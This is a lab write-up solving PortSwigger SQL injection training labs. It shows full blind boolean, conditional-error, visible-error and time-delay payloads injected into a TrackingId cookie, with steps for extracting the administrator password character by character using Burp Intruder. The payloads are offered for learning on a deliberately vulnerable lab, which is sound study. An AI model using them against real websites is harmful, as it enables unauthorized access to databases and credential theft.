 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)
- This injection will be used in `Cookie` section in `TrackingID` input field of the page.

```sql
TrackingId=mCKLbQonMlRUp42B' AND '1'='1;  #Returns 'Welcome Back', This boolean condition means the page is vul to Bilnd SQLi
TrackingId=mCKLbQonMlRUp42B' AND '1'='2; #Doesn't Returns 'Welcome Back' 

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users LIMIT 1)='a;  #Confirming that there is a table called users
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator')='a; #confirming that there is a user called administrator

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a #confirming that the password is greater than 1 character in length.
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator' AND LENGTH(password)>19)='a; #Password is 20 char long
```


### After determining the length of the password, the next step is to `test the character at each position` to determine its value.
- This step involve `Intruder` Module, set the Type: Sniper, Position: $a$, Intruder Setting: Grep-Match 'Welcome Back'
- Injection: `TrackingId=mCKLbQonMlRUp42B' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`
- Repeat the same step for every position i.e SUBSTRING(password,2 to 20,1)
- On correct position guessed by payload, it'll flag the `Welcome Back` in result.
- Take the guessed char & note it down.
- ![image](https://github.com/user-attachments/assets/c07e3d8c-e54b-40b1-a268-48a0263e764e)

### Related Concepts: SUBSTRING(string, start_position, length)
```
string: The string from which you want to extract the substring.
start_position: The position in the string to start extracting (1-based index).
length: The number of characters to extract.
```

## Lab 11: Blind SQL injection with conditional errors [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)
```sql
If there is Error, means the Query is getting processed by Server & We can give conditions to test for the payloads

TrackingId=3K2lIneuWTHL6FqO' Error
TrackingId=3K2lIneuWTHL6FqO'' No Error

'||(SELECT '')||' error
'||(SELECT '' from dual)||' No error (ORacle DB)

TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from Incorrect_table)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from users where ROWNUM=1)||'; No error means the `Users` table exists in DB

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Codition True, No Error with this.

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that there is a user named Administrator
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that the password Length is > 1

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>=20 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||'; Confirms the Length is of 20 characters
```

- Use SUBSTR( string, start_position [, length ]) to check the password length
- Use Intruder's Sniper Attack type to fuzz the password by comparing each & every position from SUBSTR(password,1,1) to SUBSTR(password,20,1)
- Copy each letter from result if recieved Error 500, use the same to login after extracting all 20 letters.

```sql
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,20,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

hn8u07gig6zkt9947d47

- Now, login with extracted passsword.
```


## Lab 11: Visible error-based SQL injection [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)

- Capture the GET/ request: Look for the Cookie: "TrackingId" > Send it to Repeater.
- In Repeater, append a single quote to the value of your TrackingId cookie and send the request.
`TrackingId=ogAZZfxtOKUELbuJ'` > Observe the error > TrackingId=ogAZZfxtOKUELbuJ'-- > Comment out the rest of the query > Observe the error.
- Adapt the query to include a generic SELECT subquery and cast the returned value to an int data type: `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--` > Observe the Error
- Modify the Query: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
- Adapt your generic SELECT statement so that it retrieves usernames from the database: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--` > Observe the error.
- Delete the TrackingID value & Observe the error.
- Modify the query to return only one row: `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)`
- Try to leak the Creds > Look for Creds on the page.


## Lab 12: Blind SQL injection with time delays and information retrieval [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)
- Capture the GET/ request: Look for the Cookie: "TrackingId" > Send it to Repeater.
- Try to find the DB which site is using, here it is PostgreSQL.
- `Cookie: TrackingId=x'||pg_sleep(10)--;`

